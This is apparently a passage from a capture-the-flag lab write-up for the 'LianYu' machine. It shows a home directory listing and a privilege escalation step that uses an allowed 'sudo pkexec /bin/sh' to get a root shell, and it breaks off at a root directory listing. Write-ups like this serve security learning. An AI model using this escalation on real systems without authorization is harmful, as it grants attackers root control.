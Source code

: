```bash
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
 ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝╚══════╝


        ██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
        ██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
        ██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
        ██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
        ███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
        ╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

```

```
slade@LianYu:~$ ls -la 
total 32
drwx------ 2 slade slade 4096 May  1  2020 .
drwxr-xr-x 4 root  root  4096 May  1  2020 ..
-rw------- 1 slade slade   22 May  1  2020 .bash_history
-rw-r--r-- 1 slade slade  220 May  1  2020 .bash_logout
-rw-r--r-- 1 slade slade 3515 May  1  2020 .bashrc
-r-------- 1 slade slade   77 May  1  2020 .Important
-rw-r--r-- 1 slade slade  675 May  1  2020 .profile
-r-------- 1 slade slade   63 May  1  2020 user.txt
```



## **Privilege Escalation**

```bash
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
slade@LianYu:~$ sudo pkexec /bin/sh
```
We can use pkexec as root, it will be helpfull to spawn root shell


```bash
sudo pkexec /bin/sh
```


**Zawartość `root.txt`:**
```
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
slade@LianYu:~$ sudo pkexec /bin/sh
# bash
root@LianYu:~# pwd
/root
root@LianYu:~# ls -la 
total 28
drwx------  3 root root 4096 May  1  2020 .
drwxr-xr-x 23 root root 4096 May  1  2020 ..
```